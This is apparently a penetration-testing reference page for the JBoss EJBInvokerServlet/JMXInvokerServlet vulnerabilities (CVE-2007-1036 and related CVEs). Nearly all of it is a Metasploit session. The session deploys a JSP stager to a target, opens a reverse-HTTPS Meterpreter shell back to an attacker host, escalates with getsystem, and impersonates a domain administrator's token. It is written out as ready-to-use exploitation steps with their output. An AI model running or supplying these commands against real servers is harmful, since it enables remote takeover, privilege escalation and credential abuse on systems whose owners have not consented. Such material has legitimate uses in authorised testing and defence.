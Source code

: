 ```yaml
---
title : "CVE-2007-1036"
# pre : ' '
description : "Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities."
date : 2020-06-24T11:33:36+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities

- CVE-2007-1036
- CVE-2012-0874
- CVE-2013-4810

## Usage

```plain
msf5 use exploit/multi/http/jboss_invoke_deploy
```

## Examples

```plain
msf5 use exploit/multi/http/jboss_invoke_deploy
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHOSTS 10.10.10.10
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHPORT 8180
msf5 exploit(multi/http/jboss_invoke_deploy) > SET PAYLOAD windows/meterpreter/reverse_https
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LHOST 10.10.10.1
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LPORT 8443
msf5 exploit(multi/http/jboss_invoke_deploy) > run

[*] Started HTTPS reverse handler on https://10.10.10.1:8443
[*] Using manually select target: "Windows Universal"
[*] Deploying stager
[*] Calling stager: /EnyMtdpsHwfYUU/idIzmUiHUjmzdC.jsp
[*] Uploading payload through stager
[*] Calling payload: /BiAbpcPbeQku/MAhczELmEptIOJe.jsp
[*] Removing payload through stager
[*] Removing stager
[*] https://10.10.10.1:8443 handling request from 10.10.10.10; (UUID: 4goaaaae) Staging x86 payload (177241 bytes) ...
[*] Meterpreter session 1 opened (10.10.10.1:8443 -> 10.10.10.10:50537) at 1970-01-01 00:01:00 +0200

meterpreter > getsystem
...got system (via technique 1).
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
offsec.nl\adm-JohnDo

meterpreter > impersonate_token offsec.nl\adm-JohnDo
[+] Delegation token available
[+] Successfully impersonated user offsec.nl\adm-JohnDo
meterpreter > getuid
Server username: offsec.nl\adm-JohnDo
```

## URL List

- [Nessus.org](http://www.nessus.org/u?74979c27)
- [Tenable.com - ID 70414](https://www.tenable.com/plugins/nessus/70414)
